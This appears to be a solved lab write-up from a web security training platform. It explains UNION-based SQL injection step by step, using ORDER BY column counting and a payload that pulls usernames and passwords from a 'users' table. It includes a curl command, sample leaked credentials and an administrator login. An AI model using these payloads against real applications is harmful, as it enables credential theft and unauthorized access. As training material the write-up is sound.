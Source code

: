 # SQL injection UNION attack, retrieving data from other tables — Practitioner

**Status:** Solved

---

## Goal

Use UNION-based SQL injection to retrieve data from a different table. Extract usernames and passwords from the 'users' table and log in as administrator.

---

## Steps (simple & complete)

1. **Find the injection point**
   - Browse to the shopping application
   - Click on any product category:
```
   GET /filter?category=Gifts
```
   - This parameter is vulnerable to SQL injection

2. **Determine the number of columns**
   - Use ORDER BY to find column count:
```
   Gifts' ORDER BY 1--
   Gifts' ORDER BY 2--
   Gifts' ORDER BY 3--
```
   - Let's say it returns 2 columns (error at ORDER BY 3)

3. **Verify both columns accept text**
   - Test with string values:
```
   Gifts' UNION SELECT 'abc','def'--
```
   - If no error, both columns can handle text

4. **Know the target table structure**
   - The lab tells you there's a table called `users`
   - It has columns: `username` and `password`
   - This is given information - no need to enumerate

5. **Extract data from users table**
   - Use UNION to select from the users table:
```
   Gifts' UNION SELECT username,password FROM users--
```
   - This combines product results with user credentials

6. **Execute the injection**
```bash
   curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+username,password+FROM+users--"
```

7. **Find administrator credentials**
   - Look through the page output
   - You'll see usernames and passwords displayed alongside products
   - Find the row with username 'administrator'
   - Copy the administrator's password

8. **Log in as administrator**
   - Go to the login page
   - Username: `administrator`
   - Password: (the one you extracted)
   - Click "Log in"
   - Lab solves automatically once you're logged in

---

## Example

- Vulnerable endpoint: `GET /filter?category=Gifts`
- Column count: 2 columns
- Target table: `users` with columns `username`, `password`

Payload:
```bash
curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+username,password+FROM+users--"
```

Output on page might show:
```
Product: Laptop - $999
Product: Mouse - $20
administrator:s3cr3tp@ssw0rd
wiener:peter
carlos:montoya
Product: Keyboard - $50
```

Extract `administrator:s3cr3tp@ssw0rd` and log in!

---

## Why this works

**UNION operator basics:**
- UNION combines results from two SELECT statements
- Both queries must return same number of columns
- Column types must be compatible
- Results are merged into a single result set

**The attack flow:**
1. Original query: `SELECT name,description FROM products WHERE category='Gifts'`
2. Our injection: `Gifts' UNION SELECT username,password FROM users--`
3. Final query: `SELECT name,description FROM products WHERE category='Gifts' UNION SELECT username,password FROM users--'`
4. Result: Products + User credentials in the same output

**Why it's dangerous:**
- We can access ANY table in the database
- Not limited to the original query's scope
- Bypasses application-level access controls
- Can extract sensitive data from unrelated tables

---

## Key concepts

**Column matching:**
- UNION requires exact column count match
- Data types should be compatible
- Order matters - first column in UNION maps to first column in original query

**Retrieving multiple rows:**
- UNION returns ALL rows from both queries
- You get all users, not just one
- Makes it easy to find administrator credentials

**Comment syntax:**
- `--` comments out everything after
- Removes the rest of the original query
- Essential for making injection work cleanly

---

